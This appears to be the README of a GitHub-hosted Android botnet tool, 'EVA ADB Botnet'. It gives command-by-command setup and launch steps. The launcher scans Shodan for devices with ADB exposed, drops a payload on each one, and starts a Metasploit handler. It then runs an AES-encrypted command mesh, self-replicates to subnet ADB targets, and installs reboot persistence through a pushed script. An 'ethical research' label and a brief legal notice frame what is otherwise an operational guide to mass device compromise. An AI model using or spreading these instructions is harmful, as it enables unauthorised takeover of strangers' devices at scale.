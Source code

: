 # EVA ADB Botnet  
**Built by:** x3rx3s, ekomsSavior & m0usem0use  
**Purpose:** Ethical cybersecurity research, mesh-based botnet exploration, long-term persistent control of Android devices via open ADB, and encrypted peer-to-peer botnet mesh command.

---

## Getting Started (Clone + Setup)

From any Kali Linux system:

```bash
git clone https://github.com/ekomsSavior/Eva_adb_botnet.git
cd Eva_adb_botnet
```

Now install dependencies:

```bash
sudo apt update && sudo apt install -y android-tools-adb python3-pip
pip3 install pycryptodome requests
mkdir -p bots
```

Then download and install `ngrok`:

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
chmod +x ngrok
```

You should now have:
- All EVA scripts in this folder (`Eva_adb_botnet/`)
- A `bots/` directory for bot state files
- An executable `ngrok` in the same folder

---

##  One-Time Setup (Before Launch)

### 1. Set your Shodan API Key  
Edit `adb_reaper.py` and replace this line with your actual key:

```python
SHODAN_API_KEY = 'YOUR_SHODAN_API_KEY'
```

### 2. Set Payload Path  
In `adb_dropper.py`, make sure this line points to either your APK or `jeangrey_android.py`:

```python
ADB_PAYLOAD = "/root/jeangrey_android.py"
```

### 3. Set AES Encryption Key  
In `jeangrey_crypto.py`, make sure this is a strong 16-byte key:

```python
SECRET_KEY = b'Sixteen byte key'  # Change this before deployment
```

---

##  Full Botnet Launch

From inside the EVA directory:

```bash
python3 EVA_launcher.py
```

This will:
- Scan Shodan for open Android Debug Bridge (ADB) targets
- Drop the payload to each ADB-enabled device
- Start the Metasploit handler in the background
- Deploy `jeangrey_android.py` to infected targets
- Start mesh communication (UDP AES-encrypted)
- Activate replication and persistence features
- Launch the AI trigger engine
- Broadcast EVA Core’s presence across the mesh

---

## 📺 Monitor Bots (Dashboard)

To watch all active bots:

```bash
python3 eva_dashboard.py
```

This will:
- Read each bot's `jeangrey_state.json` inside `bots/`
- Show ID, IP, tags, and last seen timestamp
- Auto-refresh every 3 seconds

---

##  Send Mesh Commands (EVA Core)

```bash
python3 eva_core.py
```

This will:
- Broadcast EVA presence to all bots
- Allow you to send AES-encrypted commands to selected bot IPs
- Schedule execution after a timed delay

Supported commands:
- `scan` – make the bot scan for nearby ADB devices
- `drop` – redeploy the payload
- `report` – return full bot state
- `shutdown` – stop bot process

---

##  Auto-Response Engine (Bot Intelligence)

```bash
python3 eva_ai_trigger.py
```

This makes bots:
- Listen 24/7 for AES mesh commands
- React immediately and autonomously
- Execute mesh-sent tasks like scanning, reporting, or replicating

---

##  Self-Replication + Persistence

Bots will:
- Use `jeangrey_replication.py` to infect subnet ADB targets
- Write `bots/bot_<ip>/jeangrey_state.json` on first run
- Update `last_seen` every 60 seconds

To manually ensure reboot persistence:

```bash
adb push jeangrey_persist.sh /sdcard/Download/
adb shell sh /sdcard/Download/jeangrey_persist.sh
```

This appends a startup line to `~/.bashrc` on the infected Android.

---

##  Bot Management

To rename, retag, or kill bots manually:

```bash
python3 state_editor.py
```

This opens a terminal menu to:
- Rename bot IDs
- Add/remove tags
- View bot JSON
- Permanently delete (💀) rogue nodes

---

## 🧱 Directory Structure (After Setup)

```
Eva_adb_botnet/
├── EVA_launcher.py
├── eva_core.py
├── eva_ai_trigger.py
├── eva_dashboard.py
├── jeangrey_android.py
├── jeangrey_crypto.py
├── jeangrey_mesh.py
├── jeangrey_replication.py
├── jeangrey_tunnel.py
├── jeangrey_persist.sh
├── adb_reaper.py
├── adb_dropper.py
├── metasploit_launcher.py
├── jeangrey_injector.py
├── state_editor.py
├── ngrok
└── bots/
    ├── bot_<ip>/
    │   └── jeangrey_state.json
```

---

## Legal & Ethical Notice

EVA is for:
- Controlled environments only
- that you have permission to test on

**Never deploy EVA on public networks or without permission.**  
Misuse may be illegal.

---

## 🧠 Vision

EVA is not just a botnet — it's a **mesh consciousness**.  
She replicates. She listens. She obeys. 

